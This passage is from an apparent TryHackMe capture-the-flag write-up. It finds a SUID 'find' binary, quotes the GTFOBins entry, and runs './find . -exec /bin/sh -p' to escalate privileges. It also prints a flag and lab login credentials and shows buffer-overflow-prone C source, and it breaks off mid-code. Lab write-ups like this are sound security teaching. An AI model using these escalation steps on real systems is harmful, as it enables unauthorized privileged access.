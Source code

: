 now we login in and we have a to enumerate more. Since we have a hint. We look for a SUID binary to exploit

```abap
find / -type f -perm -u=s -user des -ls 2>/dev/null

262721    236 -rwsr-sr-x   1 des      des        238080 Nov  5  2017 /usr/bin/find

```

Using GTFO we can find exploits

https://gtfobins.github.io/gtfobins/find/

```abap
SUID
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

Running this command we elevate privileges

```abap
./find . -exec /bin/sh -p \; -quit
```

Now we have the first flag as well as des username and password. So you can switch user to des

> THM{exploit_the_SUID}
> 

```abap
Good job on exploiting the SUID file. Never assign +s to any system executable files. Remember, Check gtfobins.

You flag is THM{exploit_the_SUID}

login crdential (In case you need it)
username: des
password: destructive_72656275696c64

```

Looking around we get two files. bof and bof64.c and we can read one of them and execute the other

```abap
des@THM_exploit:~$ ./bof 
Enter some string:
hello
You entered: hello

des@THM_exploit:~$ cat bof64.c 
#include <stdio.h>
#include <unistd.h>

int foo(){
	char buffer[600];
	int characters_read;
	printf("Enter some string:\n");
	characters_read = read(0, buffer, 1000);
```